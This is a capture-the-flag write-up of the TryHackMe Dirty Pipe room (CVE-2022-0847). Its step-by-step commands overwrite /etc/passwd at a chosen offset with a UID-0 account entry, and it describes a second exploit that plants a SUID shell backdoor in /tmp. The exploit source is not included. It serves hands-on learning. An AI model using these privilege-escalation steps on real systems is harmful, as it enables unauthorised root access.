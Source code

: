 ```yaml
---
description: https://tryhackme.com/room/dirtypipe
---
```


# Dirty Pipe: CVE-2022-0847

![](<../../../.gitbook/assets/image (12) (1).png>)

## Background

In March 2022, a researcher named Max Kellerman publicly disclosed a Linux Kernel vulnerability (nicknamed "Dirty Pipe" for its similarities to the notorious "[Dirty Cow](https://dirtycow.ninja)" exploit affecting older versions of the kernel) that allowed attackers to arbitrarily overwrite files on the operating system. The vulnerability was responsibly disclosed in early 2022 and was [publicly released in a blog post](https://dirtypipe.cm4all.com) written by Max Kellerman soon after patches were made available.

Arbitrary file overwrites at the kernel level can be very easily leveraged to escalate privileges on the machine (i.e. to obtain administrator, or "root" privileges). This is a devastating vulnerability, made more so by its reach: any devices running a vulnerable version of the Linux kernel (including Android phones) are affected!

## Overview

Due to their low-level nature, any in-depth discussion of kernel vulnerabilities quickly becomes rather complicated. As such we will keep the information in this task relatively light, in the interests of keeping the information easy to digest. If you would like to read an in-depth explanation of the vulnerability (including a full code analysis), you are highly encouraged to check out Max Kellerman's [original blog post](https://dirtypipe.cm4all.com).

## A Weaponized PoC

### Generating a SHA512Crypt Hash

The first thing we want to do is create a hash so that we can add a user to the /etc/passwd file

```bash
openssl passwd -6 --salt THM "PASSWORD"
$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.
```

We now want to make a template for what we want to add to /etc/passwd

```
'tyler:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash'
```

### Finding an Offset

We have our _file_ (`/etc/passwd`) and our _content_ (the passwd entry) — all we need now is the _offset_. The offset is where in the file the exploit should begin writing at — in other words, which part of the file gets overwritten.

The vulnerability won't allow us to append to the file, so we are going to have to pick an account and overwrite it. Realistically speaking, given the length of our passwd entry (hash inclusive), this will probably actually overwrite _several_ accounts. Looking through the passwd file, the `games` account stands out as being a good candidate for a little-used account which we can afford to nuke for a few minutes. We can use `grep` with the `-b` switch to find the offset of `games` from the start of the file:

```bash
tryhackme@dirty-pipe:~/Exploit/PoC$ grep -b "games" /etc/passwd
189:games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

### Compile the Exploit

![Compile the Exploit](<../../../.gitbook/assets/image (24) (1).png>)

### Run the Exploit

Then the command should look like this:

```bash
tryhackme@dirty-pipe:~/Exploit/PoC$ ./exploit /etc/passwd 189 'tyler:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash
'
```

{% hint style="warning" %}
Note: It is importtant to have that ' on the next line
{% endhint %}

![It Worked!](<../../../.gitbook/assets/image (21) (1).png>)

{% hint style="warning" %}
Note: This flag is partially hidden
{% endhint %}

<details>

<summary>flag.txt</summary>

THM{MmU4Zjg0NDdjNjFi\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*}

</details>

## A Second Exploit

### Overview

In the previous task, we exploited the Dirty Pipe vulnerability using Max Kellerman's original proof of concept exploit code; however, other exploits have since been released. The original PoC allowed us to overwrite any file with arbitrary data at an offset of our choosing; however, other implementations have abused the arbitrary file write vulnerability in a variety of different ways.

To demonstrate this concept, a second exploit script has been added to the lab machine — this can be found on the target at `/home/tryhackme/Exploit/Bl4sty/dirtypipez.c`. As the directory structure suggests, this implementation was coded by [@bl4sty](https://twitter.com/bl4sty/), a security researcher who you may remember if you have already completed the "[SudoVulns: Baron Samedit](https://tryhackme.com/room/sudovulnssamedit)" room. The original exploit code can be downloaded from bl4sty's website [here](https://haxx.in/files/dirtypipez.c); however, as mentioned previously, a copy has already been added to the lab machine.

This exploit takes the arbitrary file write one stage further by abusing a rather special quality of the vulnerability. SUID Programs usually lose their [SUID bit](https://muirlandoracle.co.uk/2020/03/05/unix-file-permissions/#SUID) when you attempt to write to them; however, this does not happen with Dirty Pipe — in other words, we can write to any program that has permission to execute with higher privileges, without inadvertently destroying that extra permission (as would usually happen).

Bl4sty's exploit capitalises on this. Instead of overwriting a file like `/etc/passwd`, it overwrites a user-specified SUID binary (such as `/bin/su`), injecting shellcode into it which then gets executed with the permissions of the privileged user (i.e. `root`). Specifically, the exploit hijacks the chosen SUID binary and forces it to create a backdoor binary in  `/tmp` which has the SUID bit and calls `/bin/sh`. It then restores the targeted SUID binary to full working order by re-adding the overwritten section, and uses the newly created backdoor to grant the attacker a shell as the privileged user.

### Exploitation

#### Compile the Exploit

```bash
tryhackme@dirty-pipe:~/Exploit/Bl4sty$ gcc dirtypipez.c -o exploit
tryhackme@dirty-pipe:~/Exploit/Bl4sty$ ls
dirtypipez.c  exploit
```

#### Run the Exploit

![We got Root!](<../../../.gitbook/assets/image (9) (1).png>)

## Lessons Learned

* When looking for a Linux privilege escalation keep an eye out for the kernel version because if it is 5.8, this could be an easy attack vector
* Even if the linux operating system is read-only (like [bottlerocket](https://github.com/bottlerocket-os/bottlerocket)) the kernel could still be vulnerable to this attack
